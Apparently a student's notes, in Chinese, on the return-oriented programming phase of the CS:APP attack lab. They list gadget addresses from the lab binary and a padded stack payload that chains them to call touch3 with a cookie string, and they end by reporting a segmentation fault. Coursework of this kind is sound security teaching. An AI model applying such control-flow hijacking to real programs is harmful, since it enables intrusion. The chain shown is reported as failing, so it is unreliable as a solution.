


# 分析

## form.d 中能用的操作
```
pop %rax  
getval_280 : 0x4019cc   
58 90 c3   

movq %rsp,%rax   
addval_190 : 0x401a06    
48 89 e0 c3   

movq %rax,%rdi  
setval_426 : 0x4019c5   
48 89 c7 90 c3  


getbuf 返回后 %rsi 为 0x30  
 
add_xy : 0x4019d6  
lea    (%rdi,%rsi,1),%rax  
ret   
```


## 故：

```
movq %rsp,%rax              # addval_190 : 0x401a06   字符串基址位置 
movq %rax,%rdi              # setval_426 : 0x4019c5  
lea (%rdi,%rsi,1),%rax      # add_xy : 0x4019d6       偏移量 0x30 
movq %rax,%rdi              # setval_426 : 0x4019c5   


00 00 00 00 00 00 00 00   
00 00 00 00 00 00 00 00  
00 00 00 00 00 00 00 00  
00 00 00 00 00 00 00 00  
00 00 00 00 00 00 00 00  
06 1a 40 00 00 00 00 00     # addval_190 : 0x401a06  
c5 19 40 00 00 00 00 00     # setval_426 : 0x4019c5    字符串基址位置  
d6 19 40 00 00 00 00 00     # add_xy : 0x4019d6        偏移量 0x30   
c5 19 40 00 00 00 00 00     # setval_426 : 0x4019c5   
fa 18 40 00 00 00 00 00     # touch3  
00 00 00 00 00 00 00 00  
00 00 00 00 00 00 00 00  
35 39 62 39 39 37 66 61     # cookie
00 00 00 00 00 00 00 00     # 字符串结束  
```

## 结果


根据抽象原则，只需考虑 touch3() 参数是否正确即可

考虑栈覆盖，再加一个是否被重写

但结果却是  segmentation fault  




